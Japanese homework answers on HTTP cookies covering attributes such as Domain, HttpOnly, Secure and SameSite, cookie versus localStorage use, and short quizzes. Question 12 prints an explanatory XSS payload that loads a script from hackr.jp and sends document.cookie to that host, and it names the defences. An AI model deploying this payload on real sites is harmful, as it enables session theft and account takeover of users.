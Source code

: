 # 課題4

## 問題１

　HTTPはステートレス・プロトコルであるため、以前やり取りしたリクエストやレスポンスの状態を管理しない。つまり、以前の状態を踏まえた上でのリクエストを処理することができない。たとえば、認証が必要なWebページで状態管理が無いとすると、認証済みという状態を忘れてしまうため、新たなページに移動するたびに再度ログイン情報を送るか、リクエストごとにパラメーターか何かをつけてログイン状態を管理しなければならなくなる。  
　ステートレス・プロトコルの特徴は残したまま、こういった問題を解決するためにCookieが取り入れられた。Cookieは、リクエストとレスポンスにCookieという情報を載せることによって、クライアントの状態を把握するための仕組み。  
　Cookieは、サーバーからのレスポンスで送られたSet-Cookieというヘッダーフィールドによって、Cookieをクライアントに保持してもらうように指示を出す。次に、クライアントが同じサーバーにリクエストを出す際には、クライアントが自動的にCookieに値を入れて送信する。  
　サーバーはクライアントが送ってきたCookieを見ることで、どのクライアントからのアクセスなのかをチェックし、サーバー上の記録を確かめることで、以前の状態を知ることができる。

## 問題2

送信されない。  
Domain属性が指定されていない場合、同一オリジンでのみ利用可能なため。

## 問題3

送信される。  
同一ホストであれば、異なるポートにも送信される。

[参考](https://datatracker.ietf.org/doc/html/rfc6265)

```
Similarly, cookies for a given host are shared across all the ports on that host
```

## 問題4

送信されない。  
Domain属性が指定されていない場合、同一オリジンでのみ利用可能となり、サブドメインは除外される。

## 問題5

送信される。  
Domain属性が指定されている場合、サブドメインにも送出される。

## 問題6

HttpOnly属性を指定することで可能になる。  
HttpOnly属性は、Cookieの取得をJavaScript経由で行うことができないようにするCookieの拡張機能。  
HttpOnly属性が指定されたCookieはJavaScriptの「Document.cookie」APIにアクセスできなくなる。

## 問題7

Secure属性を指定することで可能になる。  
Secure属性は、WebページがHTTPSで開かれているときのみに、Cookieが送出されるよう制限する。

## 問題8

Expires属性は、ブラウザがCookieを送出することができる有効期限を指定することができる。

## 問題9

SameSite属性は、ブラウザがクロスサイトリクエストとともにCookieが送信されることを防ぐ。  
主な目的は、クロスオリジンの情報漏洩リスクを軽減することで、CSRF の対策にもなる。  
取ることができる値は、Strict, Lax, Noneの3つ。  
Strictの値を設定すると、すべてのクロスサイトの閲覧コンテキストにおいて、ブラウザからターゲットサイトにクッキーが送信されないようになる。  
Laxの値を設定すると、外部のウェブサイトで通常のリンクからアクセスしたときはCookieを許可し、CSRF が発生しやすいリクエストメソッド (POST など) ではCookieをブロックする。  
Noneの値を設定すると、ブラウザはすべての閲覧コンテキストでクッキーを送信する。

[参考](https://owasp.org/www-community/SameSite)

## 問題10

- 4096バイトを超える容量の大きい情報。
- サーバーに送信する必要が無い情報。
- 暗号化されていないパスワードなどの秘匿性の高い情報

## 問題11

クッキーを使うべきタイミング  
ログイン情報などのサーバーに送信する必要がある情報や、秘匿性の高い重要な情報を保持するとき

ローカルストレージを使うべきタイミング  
サイトの表示設定などの、サーバーに送信する必要がない情報。

## 問題12

下記のようなスクリプトを仕込むことで、ユーザーのCookieをXSSによって奪うことができる。

```
<script src=http://hackr.jp/xss.js></scriot>
```

このスクリプトが指し示す http://hackr.jp/xss.js は下記のJavaScriptが記述されている

```
const content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">")
```

このJavaScriptがXSSの脆弱性のあるWebアプリケーション上で実行されると、そのWebアプリケーションのドメインのCookie情報にアクセスされる。
そして、その情報が http://hackr.jp/ に送信され、ユーザーのCookie情報を奪うことができる。

対策としてはCookieにHttpOnly属性を設定し、JavaScriptで「document.cookie」にアクセスできなくする方法や、
ユーザーの入出力が行われる箇所でエスケープ処理を行うなどの方法がある。

## クイズ1

レスポンスヘッダーフィールドに、値を出力する処理があるところに改行コードを挿入されることで、任意のCookieをセットされる攻撃は次のうちどれ？

- ディレクトリ・トラバーサル
- メールヘッダーインジェクション
- HTTPヘッダーインジェクション
- リモート・ファイル・インクルージョン

## クイズ2

攻撃者はXSSによりセッションIDを含んだCookieを入手し、ユーザーのセッションIDを入手した攻撃者は、ブラウザのCookieにセッションIDをセットし、Webサイトにアクセスすることでユーザーになりすまし、不正アクセスする行為は次のうちどれ？

- セッションハイジャック
- セッションフィクセーション
- セッションアダプション

## クイズ3

Cookieとは関係が無いのは次のうちどれ？

- RFC2109
- RFC2965
- RFC6265
- RFC1951
